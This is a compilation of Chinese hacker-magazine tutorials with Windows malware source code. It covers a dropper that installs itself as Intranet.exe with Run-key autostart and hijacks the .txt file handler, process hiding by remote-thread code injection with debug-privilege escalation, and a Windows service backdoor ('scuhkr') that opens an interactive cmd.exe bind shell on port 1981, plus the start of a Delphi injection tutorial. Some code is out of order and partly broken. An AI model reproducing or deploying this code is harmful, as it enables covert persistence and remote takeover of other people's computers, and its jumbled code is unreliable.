程序源代码用 VC++6.0 写成，读者请查看光盘“源代码”栏目，按照文章名查找即可。在重新编译本程序的时候，一定要将编译开关选择为多线程版本，否则会提示找不到 _beginthreadex 和 _endthreadex。

下面我们共同来探讨一下整个代码。

```cpp
#include<TCHAR.h>
#include<iostream.h>
#include<afx.h>
#ifdef MAX_PATH
#undef MAX_PATH
#define MAX_PATH 200
#endif

int main()
{
    TCHAR TempPath[MAX_PATH];
    CString temp;
    // 取 Windows 的系统目录
    ::GetSystemDirectory(TempPath,MAX_PATH);
    temp=TempPath;
    temp=temp+_T("\\Intranet.exe");
    int len=temp.GetLength();
    LPBYTE lpb=new BYTE[len];
    for(int j=0;j<len;j++)
    {
        lpb[j]=temp[j];
    }
    lpb[j]=0;
    // 判断文件的拷贝成功与否
    if(!CopyFile("KillYou.exe",temp,FALSE))
    {
        LPVOID lpMsgBuf;
        FormatMessage(
            FORMAT_MESSAGE_ALLOCATE_BUFFER |
            FORMAT_MESSAGE_FROM_SYSTEM |
            FORMAT_MESSAGE_IGNORE_INSERTS,
            NULL,
            GetLastError(),
            MAKELANGID(LANG_NEUTRAL,SUBLANG_DEFAULT),
            (LPTSTR)&lpMsgBuf,
            0,
            NULL
        );
        MessageBox(NULL,(LPCTSTR)lpMsgBuf,"Error",MB_OK);
        LocalFree(lpMsgBuf);
    }

    HKEY hKey;
    LPCSTR data_Set="Software\\Microsoft\\Windows\\CurrentVersion\\Run";
    RegOpenKeyEx(HKEY_LOCAL_MACHINE,data_Set,0,KEY_WRITE,&hKey);
    RegSetValueEx(hKey,_T("remotecontrol"),NULL,REG_SZ,lpb,len);
    RegCloseKey(hKey);

    data_Set="txtfile\\shell\\open\\command";
    RegOpenKeyEx(HKEY_CLASSES_ROOT,data_Set,0,KEY_WRITE,&hKey);
    RegSetValueEx(hKey,NULL,NULL,REG_EXPAND_SZ,lpb,len);
    RegCloseKey(hKey);

    MessageBox(NULL,"Thank you for using this program!","HELLO",MB_OK);
    delete []lpb;
    return 0;
}
```

### Windows 2003 下的进程隐藏

文／小宝

关于进程的隐藏，Windows 98 下的例子数不胜数，Windows 2000 下的隐藏方法，各个编程论坛中也介绍过，我也多次读过有关的文章，对朋友们的计算机水平及热心帮助朋友的作风十分敬佩。本文就算是对前辈文章的补充与深入介绍吧。

在 Windows 2003 下“真正隐藏进程”这一说法是不太可能实现的，只要我们的程序是以进程内核的形式运行，都不可能逃离 CTRL+ALT+DEL 的法眼。那么奇怪了，这些不是与我们的标题相矛盾吗？是的，实际上应该是“以非进程方式执行目标代码，而逃避进程查看器的检查，从而达到‘进程隐藏’的目的。”

我们这里用的是在宿主进程中，以线程方式执行代码，实现起来非常简单。

首先，我们建立一个不执行任何语句的线程：

```cpp
DWORD __stdcall ThreadProc(LPVOID *lpVoid){
    return 0;
}
```

然后将线程代码拷贝至宿主进程所能够执行的任何地方（即页面属性为 PAGE_EXECUTE_READWRITE），如共享内存映射区、宿主进程内。这里我们选择宿主进程，拷贝的时候，我们需要先在宿主进程中使用 VirtualAllocEx 函数申请一段内存，然后再使用 WriteProcessMemory 将线程体写入宿主进程中。

以上工作完成后，我们便可用 CreateRemoteThread 函数激活并执行。下面给出一个完整的例子：

```cpp
// 远程线程执行体
DWORD __stdcall ThreadProc(void *lpPara){
    return 0;
}

int main(int argc, char* argv[]){
    const DWORD THREADSIZE = 1024*4;
    DWORD byte_write;
    HANDLE hWnd = ::OpenProcess(PROCESS_ALL_ACCESS, FALSE, 992);
    if(!hWnd) return 0;

    void *pRemoteThread = ::VirtualAllocEx(hWnd, 0, THREADSIZE,
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if(!pRemoteThread) return 0;

    if(!::WriteProcessMemory(hWnd, pRemoteThread,
        &ThreadProc, THREADSIZE, 0)) return 0;

    HANDLE hThread = ::CreateRemoteThread(hWnd,
        0, 0, (DWORD (__stdcall *)(void *))pRemoteThread,
        NULL, 0, &byte_write);
    if(!hThread) return 0;

    return 0;
}
```

写到这里，笔者的这个程序已经解析完了，这个程序你可以运行一下看一看，如果你感到它很烦的话，可以按照程序中提供的注册表路径将修改了的键值修改过来即可，不过千万不要忘记到系统目录下将它揪出来删掉，名称是 Intranet.exe。如果还有哪里有疑问，可以找高手或者到黑客防线论坛问一下，就到这里啦！

到这里，对于隐藏的方法就算告一段落，相信看过的朋友对这个思路有个非常明确的概念了吧？在理解隐藏的方法后，我们着重开始写线程的执行部分了。如下所示：

```cpp
DWORD __stdcall ThreadProc(void *lpPara){
    MessageBox(NULL, "hello", "hello", 0);
    return 0;
}
```

编译执行后，你会发现出现了一个非法操作错误。为什么呢？在我们以段页式内存管理的 Windows 2003 操作系统中，编译时会把所有的常量编译在 PE 文件的 .data 节中，而代码段则在 .text 中，所以我们拷贝到宿主进程中的代码是在 .text 中的代码，“MessageBox(NULL, (char*) 指针, 0);” 所指向的地址是本进程的内存虚拟地址，而它在宿主进程中是无法访问的。

解决的方法很简单，按部就班地将“hello”也拷贝到目标进程中，然后再引用。同理，MessageBox 函数地址编译时，也是保存在 Import 中。写过 Windows 2000 下病毒程序的朋友都知道，所有常量与函数入口地址都需在代码段定义与得出，我们这里也与它有点类似，同样情况下我们也把函数的入口地址一起写入目标进程中：

```cpp
// 先定义参数结构
typedef struct _RemotePara { // 参数结构
    char pMessageBox[12];
    DWORD dwMessageBox;
} RemotePara;

// 赋值
RemotePara myRemotePara;
::ZeroMemory(&myRemotePara, sizeof(RemotePara));
HINSTANCE hUser32 = ::LoadLibrary("user32.dll");
myRemotePara.dwMessageBox = (DWORD)::GetProcAddress(hUser32, "MessageBoxA");
strcat(myRemotePara.pMessageBox, "hello\0");

// 写进目标进程
RemotePara *pRemotePara = (RemotePara *)::VirtualAllocEx(hWnd, 0, sizeof(RemotePara), MEM_COMMIT, PAGE_READWRITE);
if (!pRemotePara) return 0;
if (!::WriteProcessMemory(hWnd, pRemotePara, &myRemotePara, sizeof(myRemotePara), 0)) return 0;

// 启动将参数传递进入
HANDLE hThread = ::CreateRemoteThread(hWnd, 0, 0, (DWORD(__stdcall *)(void *))pRemoteThread, pRemotePara, 0, &byte_write);
if (!hThread) {
    return 0;
}
```

好了，就这么简单，下面再给出一个弹出 MessageBox 的实例：

```cpp
// RemoteThread.cpp:
// Defines the entry point for the console application.
#include "stdafx.h"

typedef struct _RemotePara { // 参数结构
    char pMessageBox[12];
    DWORD dwMessageBox;
} RemotePara;

// 远程线程
DWORD __stdcall ThreadProc(RemotePara *lpPara) {
    typedef int (__stdcall *MMessageBoxA)(HWND, LPCTSTR, LPCTSTR, DWORD);
    MMessageBoxA myMessageBoxA;
    myMessageBoxA = (MMessageBoxA)lpPara->dwMessageBox; // 得到函数入口地址
    myMessageBoxA(NULL, lpPara->pMessageBox, lpPara->pMessageBox, 0); // call
    return 0;
}

void EnableDebugPriv(); // 提升应用级调试权限

int main(int argc, char* argv[]) {
    const DWORD THREADSIZE = 1024 * 4;
    DWORD byte_write;
    EnableDebugPriv(); // 提升权限

    HANDLE hWnd = ::OpenProcess(PROCESS_ALL_ACCESS, FALSE, 992);
    if (!hWnd) return 0;

    void *pRemoteThread = ::VirtualAllocEx(hWnd, 0, THREADSIZE, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!pRemoteThread) return 0;

    if (!::WriteProcessMemory(hWnd, pRemoteThread, &ThreadProc, THREADSIZE, 0))
        return 0;

    // 再赋值
    RemotePara myRemotePara;
    ::ZeroMemory(&myRemotePara, sizeof(RemotePara));
    HINSTANCE hUser32 = ::LoadLibrary("user32.dll");
    myRemotePara.dwMessageBox = (DWORD)::GetProcAddress(hUser32, "MessageBoxA");
    strcat(myRemotePara.pMessageBox, "hello\0");

    // 写进目标进程
    RemotePara *pRemotePara = (RemotePara *)::VirtualAllocEx(hWnd, 0, sizeof(RemotePara), MEM_COMMIT, PAGE_READWRITE);
    if (!pRemotePara) return 0;
    if (!::WriteProcessMemory(hWnd, pRemotePara, &myRemotePara, sizeof(myRemotePara), 0)) return 0;

    // 启动线程
    HANDLE hThread = ::CreateRemoteThread(hWnd, 0, 0, (DWORD(__stdcall *)(void *))pRemoteThread, pRemotePara, 0, &byte_write);
    if (!hThread) {
        return 0;
    }
    return 0;
}
```

```c
// 提升权限
void EnableDebugPriv(void)
{
    HANDLE hToken;
    LUID sedebugnameValue;
    TOKEN_PRIVILEGES tkp;

    if (!OpenProcessToken(GetCurrentProcess(),
        TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY,
        &hToken))
        return;

    if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME,
        &sedebugnameValue)) {
        CloseHandle(hToken);
        return;
    }

    tkp.PrivilegeCount = 1;
    tkp.Privileges[0].Luid = sedebugnameValue;
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    if (!AdjustTokenPrivileges(hToken, FALSE, &tkp,
        sizeof(tkp), NULL, NULL))
        CloseHandle(hToken);
}
```

好了，程序编译执行后会在进程号为 992 的进程中创建一个线程，弹出 Hello 对话框，很简单吧？这里有几个地方需要注意。

- 1. 远程线程在宿主进程中申请空间时，空间大小的确定是我一直无法解决的问题。我曾使用两个靠在一起的线程，以线程间的距离大小，并加上参数大小，作为申请空间时，仍然会出现非法操作，如下所示：

```c
static void StartThread(LPVOID *lpPara){
    return;
}

static void EndThread(LPVOID *lpPara){
    return;
}
```

然后使用“DWORD dwLenght = (DWORD)((char*)&StartThread - (char*)&EndThread);”得到 StartThread 线程代码长度，再“dwLenght += sizeof(ThreadPara);”。不过这时候仍会出现非法操作……在 Windows 2000 中，线程的默认堆栈页大小是 4KB，因此申请大小先用 4KB 倍数，成功后再逐步减小。

- 2. 什么时候，什么参数是需要从外部传递进来的呢？

我的理解是：PE 文件中除了 .text 节以外的所有节，均需使用外部参数传递到线程中使用，如 .rsrc、.data、.rdata 等。编写时可在运行时按 ALT+8（VC 快捷键）反编译观察，常见有“lea eax p”“push offset p”等取址语句，说明参数需要传入。由于线程执行在别的进程中，普通权限程序无法跨进程调试其它进程（包括 VC 也难以调试远程线程）。

- 3. 权限这一点很重要。文中的 EnableDebugPriv 函数可使本进程在 Internet、WinLogin、Lsass 等进程中创建线程；Windows 2000 的进程查看器无法将其杀除。

- 4. 进程 ID 获得的方法较多，如 EnumProcesses、CreateToolhelp32Snapshot/Process32First/Process32Next、NtQuerySystemInformation 等。为减少代码，例子中的进程 ID 是直接在进程查看器中得到的。

这时候我们应该已经非常清楚这个方法中为何会多出一个 DLL 文件了。远程线程的线程体本身就是 LoadLibrary 函数，即线程入口地址是 LoadLibrary 入口地址（Kernel32.dll 中的函数）。线程中调用 LoadLibrary 将 DLL 加载到系统空间内，线程一执行，DLL 就开始工作；线程结束后别忘了用 VirtualFreeEx 释放申请的内存区。

两种方法比较：第一种在使用 DLL 时创建十分简单，也不需要太多系统与内存操作知识，并可直接调试 DLL；直接拷贝到进程中的方法稍复杂，容易出现非法操作，但可去掉明显的 DLL 痕迹。写到这里，我们就可以理解 2003 中进程隐藏的方法。本文只是给出一个指引，尽量用简洁词汇和例子帮助初学者与进阶者。

### 服务级后门自己做

文/图 Sculkr



以往大多数的木马/后门都是通过修改系统 ini 文件（比如 Win.ini、System.ini）或修改注册表的 RUN 值来实现自启动的，还有更简单的是修改 Autibat.exe（老大，地球不适合你，你还是回火星吧）。但随着网络用户安全意识的提高，连我家旁边卖茶叶蛋的大妈都知道如何对付这些老方法了。为了适应新时代木马后门技术的发展要求，一种利用 Windows NT/2000/XP 系统服务的后门产生了，现在的 WinShell、WinEggDrop 等众人皆知的 Telnet 扩展后门都利用了这种方式。相信很多小菜们对这种后门技术并不了解，所以，我在这里就充个大头，给大家传授些解解惑吧。

“服务”本身是 Windows NT/2000/XP 下客户端/服务器软件的合理选择，因为它提供了像 Unix 下后台程序 Daemons（守护进程）的等价物，而且使得创建能够代表权限低的用户进行权限高的操作的程序成为可能。像我们熟知的 RPC 服务、病毒扫描程序以及备份程序都很适合作为服务进程。服务能被我们利用作为后门实现自启动，是因为它有 3 个很重要的特性。

- 1. 服务可以被指定为自动，在利用传统的注册表修改 RUN 键值、添加 ini 自启动项等方法的基础上又多了一种选择。
- 2. 服务可以在任何用户登录前开始运行，我们可以在服务启动时加入杀防火墙的代码。
- 3. 服务是运行在后台的，如果不注意，天知道什么时候被人家装了后门。

#### 前置原理

Windows NT/2000/XP 提供的服务既可以指一种特定的 Win32 进程，也可以指内核模式的设备驱动程序。操作系统的一个称为“服务控制管理器 SCM”的组件被用来装载和控制这两种类型的服务。当然，我们说的服务是指的前者，即我们可以利用的服务是一个在 Windows NT/2000/XP 下执行的程序。当我们打开“控制面板->管理工具->服务”，就可以看到右边有一堆的服务，如图 1 所示。每一行指定了一个特定服务的属性，包括名称、描述、状态、启动类型、登录方式等。

服务大都是由服务控制程序在注册表中维护的一个信息数据库来管理的，每个服务在 HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services 中都可以找到相应的一个关键项。服务区别于一般 Windows NT/2000/XP 程序的主要之处在于服务与服务控制管理程序的合作，在后面的编程中我们将会体会到这一点。

#### 编程实现

一个完整的服务分为安装服务程序、主体服务程序和卸载服务程序。我们先来写服务的主体部分，示例代码如下：



图 1

```c
void main()
{
    SERVICE_TABLE_ENTRY ServiceTable[] =
    {
        {"scuhkr", BDServiceMain},
        {NULL, NULL} // “哨兵”
    };
    // 连接到服务控制管理器
    StartServiceCtrlDispatcher(ServiceTable);
}
```

路人甲：什么，就这么短？你想侮辱广大鸟儿的智慧？呵呵，先别急，听我慢慢道来。上面代码中，我们先给出了一个 `SERVICE_TABLE_ENTRY` 结构数组，每个成员描述了调用进程提供的服务。这里我们只安装了一个服务名为 `Scuhkr` 的服务，后面的 `BDServiceMain()` 我们称之为服务主函数，通过回调该函数提供了服务入口地址，它原型的参数必须定义成如下形式：

```cpp
VOID WINAPI BDServiceMain(
    DWORD dwArgc,      // lpszArgv 参数个数
    LPTSTR* lpszArgv   // 该数组第一个的参数指定了服务名，可从 StartService() 来调用
);
```

`SERVICE_TABLE_ENTRY` 结构数组要求最后一个成员组都为 `NULL`，我们称之为“哨兵”，所有值都为 `NULL`，表示该服务表末尾。一个服务启动后，马上调用 `StartServiceCtrlDispatcher()` 通知服务控制程序服务正在执行，并提供服务函数的地址。`StartServiceCtrlDispatcher()` 只需要至少有两个 `SERVICE_TABLE_ENTRY` 结构的数组，它为每个服务启动一个线程，一直等到它们结束才返回。

本程序只提供了一个服务函数 `BDServiceMain()`，下面我们来完成这个函数的功能，示例代码如下：

```cpp
void WINAPI BDServiceMain(DWORD dwArgc, LPTSTR *lpszArgv)
{
    DWORD dwThreadId;   // 存放线程 ID

    // 通过 RegisterServiceCtrlHandler() 与服务控制程序建立一个通信协议。
    // BDHandler() 是我们的服务控制程序，它被可以被用来开始、暂停、恢复、停止服务等控制操作。
    if (!(ServiceStatusHandle = RegisterServiceCtrlHandler("scuhkr", BDHandler)))
        return;

    // 表示该服务状态
    ServiceStatus.dwServiceType = SERVICE_WIN32_OWN_PROCESS;
    ServiceStatus.dwCurrentState = SERVICE_START_PENDING;
    ServiceStatus.dwControlsAccepted = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_PAUSE_CONTINUE;
    ServiceStatus.dwServiceSpecificExitCode = 0;
    // ...
}
```

```cpp
ServiceStatus.dwWin32ExitCode = 0;
ServiceStatus.dwCheckPoint = 0;
ServiceStatus.dwWaitHint = 0;
// 必须调用 SetServiceStatus() 来响应服务控制程序的每次请求通知
SetServiceStatus(ServiceStatusHandle, &ServiceStatus);

// 开始运行服务
ServiceStatus.dwCurrentState = SERVICE_RUNNING;
ServiceStatus.dwCheckPoint = 0;
ServiceStatus.dwWaitHint = 0;
SetServiceStatus(ServiceStatusHandle, &ServiceStatus);

// 我们用一个事件对象来控制服务的同步
if (!(hEvent = CreateEvent(NULL, FALSE, FALSE, NULL)))
    return;

ServiceStatus.dwCurrentState = SERVICE_START_PENDING;
ServiceStatus.dwCheckPoint = 0;
ServiceStatus.dwWaitHint = 0;
SetServiceStatus(ServiceStatusHandle, &ServiceStatus);

// 开线程启动我们的后门程序
if (!(hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)MainFn, (LPVOID)0, 0, &dwThreadId)))
{
    CloseHandle(hEvent);
    return;
}

ServiceStatus.dwCurrentState = SERVICE_RUNNING;
ServiceStatus.dwCheckPoint = 0;
ServiceStatus.dwWaitHint = 0;
WaitForSingleObject(hEvent, INFINITE);
CloseHandle(hThread);
ExitThread(dwThreadId);
CloseHandle(hEvent);
return;
```

上面我们调用了一个服务控制函数 `BDHandler()`，由于只是简单的介绍，我们这里只处理服务停止控制请求的情况，其他暂停、恢复等功能，读者可以自己完善。下面是对 `BDHandler()` 的实现代码。

```cpp
void WINAPI BDHandler(DWORD dwControl)
{
    switch(dwControl)
    {
    case SERVICE_CONTROL_STOP:
        // 等待后门程序的停止
        ServiceStatus.dwCurrentState = SERVICE_STOP_PENDING;
        ServiceStatus.dwCheckPoint = 0;
        ServiceStatus.dwWaitHint = 0;
        SetServiceStatus(ServiceStatusHandle, &ServiceStatus);

        // 设置事件为激发状态，等待下一个事件的到来
        SetEvent(hEvent);
        ServiceStatus.dwCurrentState = SERVICE_STOP;
        ServiceStatus.dwCheckPoint = 0;
        ServiceStatus.dwWaitHint = 0;
        // 停止
        break;
    }

    SetServiceStatus(ServiceStatusHandle, &ServiceStatus);
    break;

    default:
        break;
    }
}
```

服务控制函数搞定了，下面就剩下主体的后门函数了。本程序借用了前辈翻写过了无数次的后门程序，通过开一个端口监听，允许任何与该端口连接的远程主机建立信任连接，并提供一个交互式 Shell。为了代码清晰，我去掉了错误检查，整个过程很简单，也就不多解释了，《黑客防线》上都有介绍了，代码如下：

```c
DWORD WINAPI MainFn(LPVOID lpParam)
{
    WSADATA WSAData;
    struct sockaddr_in RemoteAddr;
    DWORD dwThreadIdA, dwThreadIdB, dwThreadParam = 0;
    PROCESS_INFORMATION processinfo;
    STARTUPINFO startinfo;

    WSAStartup(MAKEWORD(2,2), &WSAData);
    ServerSocket = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    RemoteAddr.sin_family = AF_INET;
    RemoteAddr.sin_port = htons(1981);
    RemoteAddr.sin_addr.S_un.S_addr = INADDR_ANY;

    bind(ServerSocket, (LPSOCKADDR)&RemoteAddr, sizeof(RemoteAddr));
    listen(ServerSocket, 2);

    varA = 0;
    varB = 0;
    CreateThread(NULL, 0, ThreadFuncA, NULL, 0, &dwThreadIdA);
    CreateThread(NULL, 0, ThreadFuncB, NULL, 0, &dwThreadIdB);

    do {
        Sleep(250);
    } while ((varA || varB) == 0);

    GetStartupInfo(&startinfo);
    startinfo.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    startinfo.hStdInput = hReadPipe;
    startinfo.hStdError = hWritePipe;
    startinfo.hStdOutput = hWritePipe;
    startinfo.wShowWindow = SW_HIDE;

    char szAPP[256];
    GetSystemDirectory(szAPP, MAX_PATH + 1);
}
```

```c
strcat(szAPP, "\\cmd.exe");
// 开 cmd 进程
if (CreateProcess(szAPP, NULL, NULL, NULL, TRUE, 0, NULL, NULL, &startinfo, &processinfo) == 0)
{
    printf("CreateProcess Error\n");
    return -1;
}

while (true)
{
    ClientSocket = accept(ServerSocket, NULL, NULL);
    Sleep(250);
}

return 0;

// 线程函数 A：将控制端输入写入被控端标准输入
DWORD WINAPI ThreadFuncA(LPVOID lpParam)
{
    SECURITY_ATTRIBUTES pipeattr;
    DWORD nByteToWrite, nByteWritten;
    char recv_buff[1024];

    pipeattr.nLength = sizeof(SECURITY_ATTRIBUTES);
    pipeattr.lpSecurityDescriptor = NULL;
    pipeattr.bInheritHandle = TRUE;
    CreatePipe(&hReadPipe, &hWriteFile, &pipeattr, 0);

    varA = 1;
    while (true)
    {
        Sleep(250);
        nByteToWrite = recv(ClientSocket, recv_buff, 1024, 0);
        printf("%s\n", recv_buff);
        WriteFile(hWriteFile, recv_buff, nByteToWrite, &nByteWritten, NULL);
    }
    return 0;
}

// 线程函数 B：将被控端输出写回控制端
DWORD WINAPI ThreadFuncB(LPVOID lpParam)
{
    SECURITY_ATTRIBUTES pipeattr;
    DWORD len;
    char send_buff[25000];
}
```

```cpp
pipeattr.nLength = sizeof(SECURITY_ATTRIBUTES);
pipeattr.lpSecurityDescriptor = NULL;
pipeattr.bInheritHandle = TRUE;
CreatePipe(&hReadFile,
    &hWritePipe,
    &pipeattr,
    0);

varB = 1;
while (true)
{
    ReadFile(hReadFile,
        send_buff,
        25000,
        &len,
        NULL);

    send(ClientSocket,
        send_buff,
        len,
        0);
}
return 0;
}
```

```cpp
SERVICE_WIN32_OWN_PROCESS, // 私有类型
SERVICE_DEMAND_START,      // 自启动类型
SERVICE_ERROR_IGNORE,      // 忽略错误处理
szExePath,                 // 应用程序路径
NULL,
NULL,
NULL,
NULL,
NULL) == NULL)
{
    printf("%d\n", GetLastError());
    return;
}

// 让服务马上运行。万一是个服务器，10天半个月不重启，它不是没搞头？
if (StartService(hService, 0, NULL) == FALSE)
{
    printf("StartService failed: %d\n", GetLastError());
    return;
}
printf("Install service successfully\n");
CloseServiceHandle(hService);   // 关闭服务句柄
CloseServiceHandle(hSCManager); // 关闭服务管理数据库句柄
}
```

那后门怎么留？我们上面写的都是主体部分，还没安装呢。安装服务的部分其实很简单，示例代码如下：

OK，一切都写完了，我们在本机上测试一下，先把前面的服务主体程序 Scuhkr.exe 拷贝到系统目录\system32 下（如果需要程序自动实现自拷贝的，可以通过 CopyFile() 来实现，具体怎么做我就不讲了，相信聪明的你三下五除二就能搞定，确实不行就去找 WinShell 的源代码来看看吧），然后执行 InstallService.exe。为了看我们是否安装成功，有两个办法，一是通过控制面板->管理工具->服务，二是利用控制台下系统自带的 Sc.exe 工具，比如“sc.exe qc rpcss”，如图2所示。看到安装服务的信息了？是不是很简单呢！

```cpp
// InstallService.cpp
void main()
{
    SC_HANDLE hSCManager = NULL, // 服务控制管理数据库句柄
              hService = NULL;   // 服务句柄
    char szSysPath[MAX_PATH] = {0},
         szExePath[MAX_PATH] = {0}; // 我们要起用执行后门程序的绝对路径

    if ((hSCManager = OpenSCManager(NULL,
        NULL,
        SC_MANAGER_CREATE_SERVICE)) == NULL)
    {
        printf("OpenSCManager failed\n");
        return;
    }

    GetSystemDirectory(szSysPath, MAX_PATH); // 获取系统目录
    strcpy(szExePath, szSysPath);
    strcat(szExePath, "\\scuhkr.exe");

    if ((hService = CreateService(hSCManager,
        "scuhkr",                  // 服务名
        "scuhkr backdoor service", // 显示用的服务名
        SERVICE_ALL_ACCESS          // 所有访问权限
```

图2

要删除服务怎么办？读者就自己当作练习吧。还有一点要说的是，本人也是临时抱佛脚，狂啃了几天关于 NT 系统服务方面的编程，如果有什么不对，欢迎大家批评指正！

> 【本文涉及的代码（程序），请见随书光盘】

Socket：前段时间每晚睡觉前总要玩几把魔兽，这段时间虽然怀旧般地玩起了星际。提到星际，又想起原来 MTY 等当时国内一流高手激战的热闹场面……扯远了，不过感觉，星际里面的隐形兵种大家都还是非常熟悉吧？我们今天就要来学习亲手打造操作系统里面的隐形兵。

### 利用远程线程技术制造隐身程序

文／图 Navyseals

我们知道系统中每个进程都有自己独立的内存空间，其他进程不得随意访问，但是并不是说无法访问。API 函数 CreateRemoteThread 就可以在其他进程中创建新的线程，就好像把一个寄生体注入到了其他生物中一样，这个寄生体将会与它的“宿主”同生共死，并且拥有宿主的所有权限。由于我们的程序代码寄生在其他进程内部，所以一般人使用任务管理器是看不见这个“寄生”进程的。下面我们来看看如何具体实现这一过程。在下文的例子中，我所使用的编译器是 Delphi，但由于几乎主要讲解的函数都是 Windows API 函数，所以下面的东西跟编译器没有什么关系，用 VC 或者 VB 一样可以使用下面提到的函数。

### 第一步，提升本进程的系统权限

因为我们要操作的是系统中的其他进程，没有足够的系统权限是无法读取甚至写入其他进程的内存地址的，所以首先需要提升自己的权限。提升进程权限可能用到以下的函数。

- 1. 函数 OpenProcessToken(

```c
HANDLE ProcessHandle;   // 进程的句柄
DWORD DesiredAccess;    // 对进程的访问描述
PHANDLE TokenHandle;    // 打开进程令牌的句柄指针
);
```

这个函数的作用是打开进程令牌。

- 2. 函数 LookupPrivilegeValue(

```c
LPCTSTR lpSystemName;   // 系统名称
LPCTSTR lpName;         // 特权名称
PLUID lpLuid;           // 本地系统唯一的 ID 号
);
```

这个函数将会返回一个本地系统内独一无二的 ID，用于系统权限的更改，它的第 1 个参数是系统名，nil 表示本系统；第 2 个参数是特权的名字；第 3 个参数用来接收函数返回的 ID。

- 3. 函数 AdjustTokenPrivileges(

```c
HANDLE TokenHandle,              // 更改权限的令牌句柄
BOOL DisableAllPrivileges,       // 是否修改所有权限的标志位
PTOKEN_PRIVILEGES NewState,      // 新的系统权限信息
DWORD BufferLength,              // 上一个参数的长度
PTOKEN_PRIVILEGES PreviousState, // 返回更改系统特权以前的权限
PDWORD ReturnLength              // 上一个参数的长度
);
```

